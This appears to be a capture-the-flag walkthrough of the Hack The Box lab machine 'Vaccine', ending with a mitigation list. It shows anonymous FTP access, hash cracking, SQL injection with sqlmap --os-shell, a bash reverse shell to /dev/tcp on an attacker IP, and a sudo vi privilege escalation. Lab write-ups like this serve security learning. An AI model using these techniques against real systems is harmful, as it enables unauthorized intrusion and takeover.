 +++
title = "Hack The Box - Vaccine"
date = 2025-05-30

[taxonomies]
tags = ["hackthebox", "starting point", "ftp", "sql", "sql injection", "reverse shell", "privesc"]
+++

[![TODO](/pictures/articles/htb/vaccine/00-cover.png)](https://www.hackthebox.com/achievement/machine/447801/289)

**Vaccine** is a Linux machine built to demonstrate the importance
of enumeration, and the dangers of chaining multiple vulnerabilities together
such as SQL injection, password hash cracking, anonymous guest access
and session cookie stealing.


<!-- more -->


## Enumeration

<!-- Enumeration {{{-->

The [nmap](https://nmap.org/) scan reveals the target machine has port 21
([FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol)),
port 22 ([SSH](https://en.wikipedia.org/wiki/Secure_Shell)), and
port 80 ([HTTP](https://en.wikipedia.org/wiki/HTTP)) open.

![a](/pictures/articles/htb/vaccine/01-nmap.png)

- `-sC`: Script scan
- `-sV`: Version detection

The webpage only presents a single login page which, for now, cannot be
bypassed.

![a](/pictures/articles/htb/vaccine/02-login.png)

There's also an FTP service running with the target machine that is allowing
anonymous login. The username should be `anonymous` and the corresponding
password is arbitrary.

![a](/pictures/articles/htb/vaccine/03-ftp-connect.png)

After logging in, the `dir` command can be used to list the available files.

There's only one file on the share, named `backup.zip`, which can be retrieved
using the `get backup.zip` command.

To exit the FTP session, issue the `exit` command.

![a](/pictures/articles/htb/vaccine/04-ftp-get.png)

`backup.zip` then needs to be extracted however, it is password-protected.

![a](/pictures/articles/htb/vaccine/05-unzip.png)

To crack the password, its hash needs to be extracted first from the encrypted
ZIP archive using `zip2john`.

![a](/pictures/articles/htb/vaccine/06-zip2john.png)

Then the extracted hash can be checked against the famous `rockyou` wordlist
using [John the Ripper](https://www.openwall.com/john/).

`john` shows that the password to unlock the ZIP is `741852963`.

![a](/pictures/articles/htb/vaccine/07-john-hashcrack.png)

The ZIP contains 2 files that can be investigated further.

![a](/pictures/articles/htb/vaccine/08-unzip.png)

[grep](https://en.wikipedia.org/wiki/Grep)ping `index.php` for `passw` reveals
a password hash stored for the `admin` user.

The found hash can be stored in a file for later use.

![a](/pictures/articles/htb/vaccine/09-pass-hash.png)

[hashID](https://psypanda.github.io/hashID/) confirms that it is indeed most
likely an [MD5](https://en.wikipedia.org/wiki/MD5) hash.

![a](/pictures/articles/htb/vaccine/10-hashid.png)

This hash can then be checked against the `rockyou` wordlist using `hashcat`.

![a](/pictures/articles/htb/vaccine/11-hashcat.png)

- `-a 0`: Dictionary attack mode
- `-m 0`: MD5 hash type

`hashcat` has cracked the hash and found the password `qwerty789`.

![a](/pictures/articles/htb/vaccine/12-hashcat-result.png)

It is now possible to log in to the website and enumerate its dashboard.

![a](/pictures/articles/htb/vaccine/13-login.png)

<!-- }}} -->

## Foothold

<!-- Foothold {{{-->

Upon running a search query, it reveals that the dashboard may actually be
connected with a backend database.

![a](/pictures/articles/htb/vaccine/14-test-query.png)

Intercepting the search query request with Burp Suite shows that there is a PHP
Session ID (`PHPSESSID`) being passed to the database in a form of a cookie.

![a](/pictures/articles/htb/vaccine/15-cookie.png)

The search query can be investigated with
[sqlmap](https://github.com/sqlmapproject/sqlmap) if it is SQL injectable.

![a](/pictures/articles/htb/vaccine/16-sqlmap.png)

- `u`: Target URL
- `--cookie`: HTTP header cookie value

`sqlmap` in its output displays multiple possible payloads to perform an
SQL injection.

To exploit the vulnerability, `sqlmap` should be called again but this time with
the additional `--os-shell` option to conclude in a shell.

![a](/pictures/articles/htb/vaccine/17-sqlmap-res.png)

The spawned `os-shell` is not so stable so it needs an additional payload
to make it work better.

To receive this incoming connection, a [netcat](https://en.wikipedia.org/wiki/Netcat)
should be set up listening an arbitrary port (e.g. `1234`).

![a](/pictures/articles/htb/vaccine/18-netcat.png)

The following Bash one-liner will initiate a connection from target back to the
attacker machine.

![a](/pictures/articles/htb/vaccine/19-payload.png)

- `bash`: Invoke a Bash shell
- `-c`: Execute the command that follows
- `bash -i`: Invoke another Bash shell instance
- `>&`: Redirect `stdout` and `stderr` to the specified location
- `/dev/tcp/10.10.15.127/1234`: Initiate a TCP connection to the specified
  address
- `0>&1`: Redirect `stdin` to `stdout`

The [netcat](https://en.wikipedia.org/wiki/Netcat)listener has successfully
received the connection resulting in a reverse shell.

![a](/pictures/articles/htb/vaccine/20-reverse-shell.png)

This shell isn't really stable either, it is disconnecting randomly, but it can
be utilized to look around on the system and retrieve the user flag.

![a](/pictures/articles/htb/vaccine/21-user-flag.png)

<!-- }}} -->

## Privilege escalation

<!-- Privilege escalation {{{-->

While exploring the web server's dedicated directories,
a password stored in clear text was discovered in a PHP file.

![a](/pictures/articles/htb/vaccine/22-user-password.png)

`sudo -l` shows that the current `postgres` user can launch `/bin/vi` as sudo to
edit a designated configuration file (`pg_hba.conf`).

![a](/pictures/articles/htb/vaccine/23-sudo-l.png)

According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)
there are multiple ways to break out from restricted environments by spawning an
interactive system shell.

One way is to open the configuration file with `vi` as `sudo`.

![a](/pictures/articles/htb/vaccine/24-vi-open.png)

Set the shell to `/bin/sh`.

![a](/pictures/articles/htb/vaccine/25-vi.png)

And then issue the `shell` command.

![a](/pictures/articles/htb/vaccine/26-vi.png)

After executing the commands, a `root` shell is spawned and the `root` flag can
be retrieved from the `/root` directory.

![a](/pictures/articles/htb/vaccine/27-root-flag.png)

By achieving root privileges, the machine is
[pwned](https://www.hackthebox.com/achievement/machine/447801/289).

<!-- }}} -->

## Mitigation

<!-- Mitigation {{{-->

1. Secure FTP Service
    - Disable anonymous logins and require authentication
    - Replace FTP with more secure protocols such as STFP

2. Web Application Security
    - Implement multi factor authentication mechanisms

3. SQL injection
    - Validate and sanitize all user inputs
    - Use prepared statements and parameterized queries to separate SQL code
    from data

4. Reverse Shell Prevention
    - Monitor and restrict outbound network traffic for patterns indicating
    reverse shell attacks

5. Sudo privileges
    - Implement the principle of least privilege when assigning sudo rights

6. Restrict configuration files
    - Ensure configuration files are accessible only for authorized users

7. Secure Shell Access
    - Restrict shell commands that can be executed
    - Monitor shell activity for suspicious behaviour

<!-- }}} -->
